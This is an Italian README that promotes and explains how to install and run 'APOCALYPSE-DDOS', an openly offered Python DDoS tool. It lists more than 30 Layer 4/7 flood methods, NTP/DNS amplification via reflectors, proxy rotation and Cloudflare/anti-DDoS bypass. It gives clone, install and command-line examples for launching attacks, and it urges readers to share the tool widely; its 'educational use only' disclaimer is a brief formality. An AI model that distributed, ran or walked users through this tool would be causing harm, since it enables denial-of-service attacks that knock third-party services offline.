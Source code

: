 # apocalypse
ddos dos tool tools/ISTRUZIONI DEL TOOL LEGGI ATTENTAMENTE (OBBLIGATORIO): ISTRUZIONI DEL TOOL: fate il download di TUTTI I FILE metteteli in una cartella esempio nome cartella: APOCALYPSE, e aprite su linux/windows/mac il file gui_apocalypse.py e dopo avrete il programma apocalypse. nella CASELLA dove bisogna selezionare l'ip o l'url non usare IP, il TOOL funziona solo con URL. IMPOSTA IL PAYLOAD A 10KB altrimenti potrebbe compromettere il funzionamento. ApocalypseDOS è uno strumento DDoS (con GUI) scritto in Python, ATTENZIONE QUESTO TOOL PUO ESSRE CONSIDERATO ANCHE SUPERIORE A LOIC. E SOPRATUTO CON Solo scopi informativi.


# APOCALYPSE-DDOS 🔥

![Logo](skull.jpg)

**APOCALYPSE-DDOS** è il tool definitivo per test di stress e simulazione DDoS, con oltre 30+ metodi Layer 4/7: potente, veloce e facile da usare.  
> ⚡️ **Usalo solo per scopi educativi e test autorizzati!** ⚡️

---

## ⭐️ Caratteristiche principali

- **30+ metodi DDoS Layer 4 & Layer 7** (inclusi GET, POST, OVH, STRESS, TCP, UDP, SYN, NTP, DNS, etc)
- **Gestione proxy avanzata** (HTTP, SOCKS4, SOCKS5, random)
- **Bypass cloudflare/antiddos** (CFB, DGB, BOMB, etc)
- **Interfaccia grafica (GUI) facile** con 3 console parallele
- **Configurabile da file o da GUI** (target, thread, proxies e altro)
- **Performance e multithreading** al massimo livello
- **Console Tools**: info, ping, check, dstat, ecc (solo modalità CLI)

---

## 🚀 Installazione

**1. Clona il repository**
```bash
git clone https://github.com/valerio213/apocalypse-ddos.git
cd apocalypse-ddos
```

**2. Installa Python 3.8+**

Assicurati di avere Python 3.8 o superiore:
```bash
python3 --version
```

**3. Installa le dipendenze**
```bash
pip install -r requirements.txt
```
Se ti serve la GUI:  
```bash
pip install pillow requests
```

**4. (Opzionale) Scarica proxylist**
- Puoi usare le proxylist già incluse o personalizzarne una in `files/proxies/`.

---

## 🛠️ Esecuzione di dos.py

```bash
python3 dos.py <metodo> <target/url/ip:port> <socks_type> <threads> <proxylist> <rpc> <durata>
```
**Esempi:**
- Layer7:  
  `python3 dos.py GET http://example.com 1 2000 http.txt 64 60`
- Layer4:  
  `python3 dos.py TCP 1.2.3.4:80 1000 60`
- Amplification:  
  `python3 dos.py NTP 1.2.3.4:80 1000 60 ntp_reflectors.txt`
- Tools:  
  `python3 dos.py TOOLS`

**Avvia GUI (se vuoi la grafica):**
```bash
python3 gui_apocalypse.py
```

---

## 📦 Cosa bisogna installare per dos.py?

- **Python >= 3.8**
- Tutte le librerie in `requirements.txt`  
  (PyRoxy, cloudscraper, requests, Pillow, psutil, yarl, icmplib, impacket, ecc)
- Consigliato:  
  ```
  pip install -r requirements.txt
  pip install pillow requests
  ```
- (Opzionale) [bombardier](https://github.com/codesenberg/bombardier) se vuoi usare il metodo BOMB.

---

## 🧑‍💻 Come contribuire?

- Fai una fork, crea una branch, proponi una pull-request!
- Metti una ⭐️ se il progetto ti piace!
- Scrivi issue per bug, suggerimenti o nuove feature!

---

## ⚠️ Disclaimer

Questo tool è **solo per test legali ed educativi** su infrastrutture di TUA proprietà o con autorizzazione scritta.  
**Non usare per scopi malevoli. L’autore declina ogni responsabilità.**

---

## ⭐️ Dai una stella e condividi!

Se ti piace APOCALYPSE-DDOS, lascia una ⭐️ e condividilo nei tuoi gruppi, social, forum!  
Più siamo, più funzionalità aggiungeremo!

---

### Seguici & Community

- Telegram: [Gruppo ufficiale](https://t.me/tuo-gruppo)
- Youtube: [Demo video](https://www.youtube.com/results?search_query=apocalypse+ddos)
- Issues & Pull Request sempre benvenute!

---
